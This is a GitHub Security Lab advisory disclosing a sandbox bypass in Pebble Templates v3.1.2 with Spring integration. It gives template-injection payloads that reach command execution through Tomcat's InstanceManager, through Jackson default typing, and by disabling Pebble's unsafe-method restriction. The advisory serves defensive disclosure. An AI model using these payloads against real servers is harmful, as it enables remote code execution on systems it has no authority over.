 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">April 1, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-050: Arbitrary code execution in Pebble Templates</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>03/23/2020: Asked for a private way of reporting the issue at https://github.com/PebbleTemplates/pebble/issues/501</li>
  <li>03/26/2020: Sent report through private Github Security Advisory discussion.</li>
  <li>06/29/2020: Requested status update with no response.</li>
  <li>07/15/2020: Requested status update with no response.</li>
  <li>10/09/2020: Requested status update with no response.</li>
  <li>01/08/2021: Requested status update with no response.</li>
  <li>03/25/2021: Disclosure deadline reached.</li>
  <li>04/01/2021: Publication as per our <a href="https://securitylab.github.com/advisories/#policy">disclosure policy</a>.</li>
</ul>

<h2 id="summary">Summary</h2>

<p>When Spring integration is enabled, an attacker that is able to modify Template contents may execute arbitrary Java code or run arbitrary system commands with the same privileges as the account running the Servlet container.</p>

<h2 id="product">Product</h2>

<p>Pebble Templates</p>

<h2 id="tested-version">Tested Version</h2>

<p>v3.1.2</p>

<h2 id="details">Details</h2>

<p>Even though Pebble does a great job sandboxing the template engine by not allowing dangerous methods to be invoked, exposing Spring beans and Servlet related objects (such as the Servlet Context) may introduce a variety of objects which can be used to bypass the Pebble sandbox. Deep inspection of the exposed objects’ object graph allows an attacker to get access to objects that allow them to instantiate arbitrary Java objects. According to the <a href="https://pebbletemplates.io/wiki/guide/spring-integration/">documentation</a>:</p>

<blockquote>
  <p>HttpServletRequest object is available to the template.
HttpServletResponse is available to the template.
HttpSession is available to the template.
Spring beans are now available to the template.</p>
</blockquote>

<p>In addition, Spring’s <a href="https://github.com/spring-projects/spring-framework/blob/master/spring-webmvc/src/main/java/org/springframework/web/servlet/view/AbstractTemplateView.java">AbstractTemplateView</a> exposes by default the <code class="language-plaintext highlighter-rouge">springMacroRequestContext</code> variable; an instance of <a href="https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/web/servlet/support/RequestContext.html">RequestContext</a>.</p>

<p>There are two main approaches to bypass the sandbox: 1) accessing the Servlet context, and 2) accessing the Spring application context beans.</p>

<h3 id="servlet-context">Servlet context</h3>

<p>Servlet context can be accessed through:</p>
<ul>
  <li><code class="language-plaintext highlighter-rouge">request.servletContext</code></li>
  <li><code class="language-plaintext highlighter-rouge">springMacroRequestContext.webApplicationContext.servletContext</code></li>
  <li><code class="language-plaintext highlighter-rouge">beans.servletContext</code></li>
</ul>

<p>On a Tomcat server the Servlet context will contain the <code class="language-plaintext highlighter-rouge">org.apache.tomcat.InstanceManager</code> attribute which enables an attacker to instantiate arbitrary objects. Note that the same class (regardless of its name) is available on other servlet containers such as Jetty and similar classes are available in other servers. For example JBoss/WildFly exposes <code class="language-plaintext highlighter-rouge">org.wildfly.extension.undertow.deployment.UndertowJSPInstanceManage</code>.</p>

<p>We can then try to run arbitrary Java code using a <code class="language-plaintext highlighter-rouge">ScriptEngine</code>:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>{{ request.servletContext.getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('id')") }}
</code></pre></div></div>

<p>There are other objects in the Servlet context that can lead to Remote Code Execution. We can list them with:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>&lt;ul&gt;
{% for attr in request.servletContext.getAttributeNames() %}
	&lt;li&gt;{{ attr }}&lt;/li&gt;
{% endfor %}
&lt;/ul&gt;
</code></pre></div></div>

<p>In a sample Tomcat server we get:</p>

<ul>
  <li>javax.servlet.context.tempdir</li>
  <li>org.apache.catalina.resources</li>
  <li>org.springframework.web.context.WebApplicationContext.ROOT</li>
  <li>org.springframework.web.context.support.ServletContextScope</li>
  <li>org.apache.tomcat.InstanceManager</li>
  <li>org.apache.catalina.jsp_classpath</li>
  <li>javax.websocket.server.ServerContainer</li>
  <li>org.apache.tomcat.JarScanner</li>
  <li>org.springframework.web.servlet.FrameworkServlet.CONTEXT.dispatcherServlet</li>
</ul>

<p>Some of these will allow us to access the Spring application context which in turn will give us access to all registered Spring beans.</p>

<h2 id="spring-beans">Spring Beans</h2>

<p>Spring Beans can be accessed in a number of ways. eg:</p>
<ul>
  <li><code class="language-plaintext highlighter-rouge">springMacroRequestContext.webApplicationContext.getBean(BEAN_NAME)</code></li>
  <li><code class="language-plaintext highlighter-rouge">beans.BEAN_NAME</code></li>
  <li><code class="language-plaintext highlighter-rouge">request.servletContext.getAttribute('org.springframework.web.context.WebApplicationContext.ROOT').getBean(BEAN_NAME)</code></li>
</ul>

<p>We can list them with:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>&lt;ul&gt;
{% for bean in springMacroRequestContext.webApplicationContext.getBeanDefinitionNames() %}
	&lt;li&gt;{{ bean }}&lt;/li&gt;
{% endfor %}
&lt;/ul&gt;
</code></pre></div></div>

<p>The first bypass is to access arbitrary <code class="language-plaintext highlighter-rouge">Class</code> objects. e.g:</p>

<p><code class="language-plaintext highlighter-rouge">{{ springMacroRequestContext.webApplicationContext.beanDefinition('application').beanClass.protectionDomain.classLoader.loadClass('javax.script.ScriptEngineManager') }}</code></p>

<p>We cant turn this into RCE by using the Jackson ObjectMapper to instantiate the ScriptManager for us:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>{% set clzz = springMacroRequestContext.webApplicationContext.beanDefinition('application').beanClass.protectionDomain.classLoader.loadClass('javax.script.ScriptEngineManager') %}
{{ beans.jacksonObjectMapper.enableDefaultTyping().readValue("{}", clzz).getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('id')") }}
</code></pre></div></div>

<p>Since we can also access the Pebble engine, we can even turn the sandbox off.</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>{% set opts = beans.pebbleEngine.evaluationOptions.setAllowUnsafeMethods(true) %}
{{ "".class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('id')") }}
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This issue may lead to Remote Code Execution (RCE).</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Munoz)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include <code class="language-plaintext highlighter-rouge">GHSL-2020-050</code> in any communication regarding this issue.</p>


